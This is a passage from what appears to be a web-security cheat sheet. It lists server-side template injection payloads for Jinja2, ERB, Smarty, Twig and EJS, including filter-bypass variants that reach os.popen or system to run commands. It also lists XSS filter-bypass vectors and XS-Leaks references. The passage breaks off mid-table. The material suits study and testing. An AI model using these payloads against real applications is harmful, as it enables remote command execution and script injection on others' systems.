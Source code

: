     - `.` `_` `[` `]`

      ```txt
      /?ssti={{lipsum|attr('\x5f\x5fglobals\x5f\x5f')|attr('os')}}
      ```

    - `.` `_` `[` `]` `|`

      ```txt
      /?ssti={{getattr(getattr(lipsum,'\x5f\x5fglobals\x5f\x5f'), 'os')}}
      ```

    - `.` `_` `[` `]` `{{` `}}`

      ```txt
      /?ssti={%if lipsum|attr('\x5f\x5fglobals\x5f\x5f')|attr('os') %}{%endif%}
      ```

    - length or other special characters (`'` `"`)

      ```txt
      /?ssti={{lipsum[request.args.param1][request.args.param2]}}&param1=__globals__&param2=os

      /?ssti={{config.update(payload=request.args.param1)}}&param1=ls
      /?ssti={{lipsum.__globals__.os.popen(config.payload)}}
      ```
- Ruby erb
  - `<%= system('id') %>`
- PHP Smarty
  - `{ system('id') }`
- PHP Twig
  - `{{ ['id'] | filter('system') }}`
- Node.js ejs
  - `<%= global.process.mainModule.require("child_process").execSync("id").toString() %>`
- Format String Attack

#### XS-Leaks
> [XS-Leaks Wiki](https://xsleaks.dev/)
> [xsleaks/xsleaks](https://github.com/xsleaks/xsleaks)  

- Browser-based side channel attack  

#### XSS
> [Cross-site scripting (XSS) cheat sheet](https://portswigger.net/web-security/cross-site-scripting/cheat-sheet)

- Type
  - Self-XSS
  - Reflected XSS
  - Stored XSS
- Mitigation
  - Filter
    | Pattern       | Bypass                                     |
    |:--------------|:-------------------------------------------|
    | [SPACE]on...= | <svg`<TAB>`onload=alert(1)>                |
    | [SPACE]on...= | <svg`\n`onload=alert(1)>                   |
    | [SPACE]on...= | <svg/ onload=alert(1)>                     |
    | javascript:   | `<a href="\x01javascript:alert(1)">X</a>`  |
    | javascript:   | `<a href="java\tscript:alert(1)">X</a>`    |
    | javascript:   | `<a href="java&Tab;script:alert(1)">X</a>` |
    | <script       | JSFuck                                     |
  - Escape (HTML Entity)
    | Symbol | Alternative |